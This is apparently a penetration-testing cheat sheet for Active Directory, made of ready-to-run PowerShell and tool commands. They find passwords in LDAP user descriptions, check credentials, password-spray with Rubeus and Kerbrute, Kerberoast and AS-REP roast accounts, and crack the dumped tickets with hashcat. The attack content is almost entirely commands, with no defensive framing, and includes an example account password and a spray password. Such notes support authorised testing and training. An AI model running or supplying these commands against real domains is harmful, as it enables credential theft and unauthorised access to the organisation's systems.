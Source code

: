 # 1. Sensitive Data in LDAP
## Start ADExplorer and search through the AD for sensitive information
`PS> adexplorer.exe`

ADexplorer> search user description field contains pw, pwd, password, pass

## Enumerate the AD with ADRecon
`PS> .\ADRecon.ps1`

`PS> .\ADRecon.ps1 -GenExcel .\ADRecon-Report-timestamp`

TODO: wget Excel file since Excel will not be installed

## Check if the password is working
```
function Test-ADCredential {

    [CmdletBinding()]
    Param
    (
        [string]$UserName,
        [string]$Password
    )
    if (!($UserName) -or !($Password)) {
        Write-Warning 'Test-ADCredential: Please specify both user name and password'
    } else {
        Add-Type -AssemblyName System.DirectoryServices.AccountManagement
        $DS = New-Object System.DirectoryServices.AccountManagement.PrincipalContext('domain')
        $DS.ValidateCredentials($UserName, $Password)
    }
}
```

`Test-ADCredential -UserName printeradm -Password "x!3945jjlkJ2mN4QQ2"`

# 2. Password Spraying
## Identify the standard domain password and start a password spray attack
### Use Rubeus
`PS> .\Rubeus.exe brute /password:Start123!`

### Use Kerbrute
`PS> Invoke-WebRequest "https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_windows_amd64.exe" -OutFile ".\kerbrute.exe"`

`PS> Import-Module .\PowerView.ps1`

`PS> (Get-NetUser | select samAccountName).samAccountName > users.txt`

`PS> .\kerbrute.exe passwordspray --domain contoso.azure .\users.txt Start123!`

ToDo error

# 3. Kerberoasting
## Identify Kerberoastable users
### PowerView
`PS> Import-Module .\PowerView.ps1`

`PS> Get-NetUser | Where-Object {$_.servicePrincipalName} | fl`

`PS> Get-NetUser -SPN | ft serviceprincipalname, samaccountname, cn, pwdlastset`

### PowerView-Dev
`PS> Import-Module .\PowerView-dev.ps1`

`PS> Get-DomainUser | Where-Object {$_.servicePrincipalName} | fl`

`PS> Get-DomainUser -SPN | ft serviceprincipalname, samaccountname, cn, pwdlastset`

### Invoke-Kerberoast
`PS> Import-Module .\Invoke-Kerberoast.ps1`

`PS> Invoke-Kerberoast`

### Rubeus
`PS> .\Rubeus.exe kerberoast`

## Get TGS Kerberos Tickets
### PowerView-Dev
`PS> Import-Module .\PowerView-dev.ps1`

`Get-DomainUser -SPN | Get-DomainSPNTicket -OutputFormat Hashcat | % { $_.Hash } | Out-File -Encoding ASCII kerberoasted.txt`

### Invoke-Kerberoast
`PS> Import-Module .\Invoke-Kerberoast.ps1`

`PS> Invoke-Kerberoast | % { $_.Hash } | Out-File -Encoding ASCII kerberoasted.txt`

### Rubeus
`PS> .\Rubeus.exe kerberoast /outfile:kerberoasted.txt`

## Crack TGS tickets
`PS> hashcat -a 0 -m 13100 kerberoasted.txt /usr/share/wordlists/rockyou.txt`

# 3. Kerberoasting
## Identify AS-REP roastable users
### PowerView-Dev
`PS> Get-DomainUser -PreauthNotRequired | ft samaccountname, pwdlastset`

`PS> Get-DomainUser -UACFilter DONT_REQ_PREAUTH,NOT_PASSWORD_EXPIRED | ft samaccountname, pwdlastset`

### Rubeus
`PS> .\Rubeus.exe asreproast`

### Invoke-ASREPRoast
`PS> Import-Module .\Invoke-ASREPRoast.ps1`

`PS> Invoke-ASREPRoast`

## ASREPRoasting
### Rubeus
`PS> .\Rubeus.exe asreproast /format:hashcat /outfile:asrephashes.txt`

### Invoke-ASREPRoast
`PS> Invoke-ASREPRoast | % { $_.Hash } | Out-File -Encoding ASCII asrephashes.txt`

## Cracking AS-REP hash with Hashcat
`PS> hashcat -a 0 -m 18200 asrephashes.txt /usr/share/wordlists/rockyou.txt`
